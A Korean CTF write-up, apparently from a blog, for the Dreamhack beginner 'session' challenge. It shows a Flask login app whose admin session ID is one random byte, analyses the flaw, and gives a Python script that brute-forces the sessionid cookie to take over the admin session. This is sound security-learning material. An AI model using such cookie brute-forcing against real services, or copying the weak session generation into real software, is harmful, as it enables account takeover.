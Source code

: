 ```yaml
---
title: "[Beginner]session"
categories: [Security, Web]
tags: [Dreamhack, Beginner]
mermaid: true
---
```

### 문제 설명  
쿠키와 세션으로 인증 상태를 관리하는 간단한 로그인 서비스입니다.  
admin 계정으로 로그인에 성공하면 플래그를 획득할 수 있습니다.  

### 참고 코드  
```python
#!/usr/bin/python3
from flask import Flask, request, render_template, make_response, redirect, url_for

app = Flask(__name__)

try:
    FLAG = open('./flag.txt', 'r').read()
except:
    FLAG = '[**FLAG**]'

users = {
    'guest': 'guest',
    'user': 'user1234',
    'admin': FLAG
}

session_storage = {
}

@app.route('/')
def index():
    session_id = request.cookies.get('sessionid', None)
    try:
        username = session_storage[session_id]
    except KeyError:
        return render_template('index.html')

    return render_template('index.html', text=f'Hello {username}, {"flag is " + FLAG if username == "admin" else "you are not admin"}')

@app.route('/login', methods=['GET', 'POST'])
def login():
    if request.method == 'GET':
        return render_template('login.html')
    elif request.method == 'POST':
        username = request.form.get('username')
        password = request.form.get('password')
        try:
            pw = users[username]
        except:
            return '<script>alert("not found user");history.go(-1);</script>'
        if pw == password:
            resp = make_response(redirect(url_for('index')) )
            session_id = os.urandom(4).hex()
            session_storage[session_id] = username
            resp.set_cookie('sessionid', session_id)
            return resp 
        return '<script>alert("wrong password");history.go(-1);</script>'

if __name__ == '__main__':
    import os
    session_storage[os.urandom(1).hex()] = 'admin'
    print(session_storage)
    app.run(host='0.0.0.0', port=8000)
```

### 코드 분석  
- `/login` 경로를 보면, 로그인에 성공했을 경우, `session_id`를 생성하고 이를 키로 하여 `session_storage`에 `username`을 저장함을 알 수 있음  
- 이후 `set_cookie`를 통해 응답에 `sessionid` 쿠키를 설정함  
- `__main__` 블록은 서버가 시작될 때 실행되는 부분임. 여기서 `session_storage`에 임의의 `session_id`와 `admin` 사용자를 추가하는데, `key` 값(`session_id`)이 `os.urandom(1).hex()`로 생성되므로, 이 값은 브루트포스로 시도해볼만 한 값임  
    - `os.urandom(1).hex()`는 1바이트의 랜덤한 값을 생성하고 이를 16진수 문자열로 변환함. 따라서 가능한 `session_id` 값은 `00`부터 `ff`까지 총 256가지임을 알 수 있음  
- `/` 경로를 보면, 쿠키에서 `sessionid`를 가져와 `session_storage`에서 해당 `session_id`에 대응하는 `username`을 찾으며, `username`이 `admin`인 경우 `flag is`라는 문자열을 포함시켜 플래그를 출력함을 알 수 있음  

### exploit code 작성  
```python
import requests

url = "http://test:port/"

for i in range(256):
    session_id = f"{i:02x}"
    cookies = {'sessionid': session_id}
    response = requests.get(url, cookies=cookies)
    if 'flag is' in response.text:
        print(f"Found session ID: {session_id}")
        print(response.text)
        break
```

### 코드 실행 결과  
- `response.text` 부분에서 `flag is DH{...}` 형태의 문자열을 확인할 수 있음  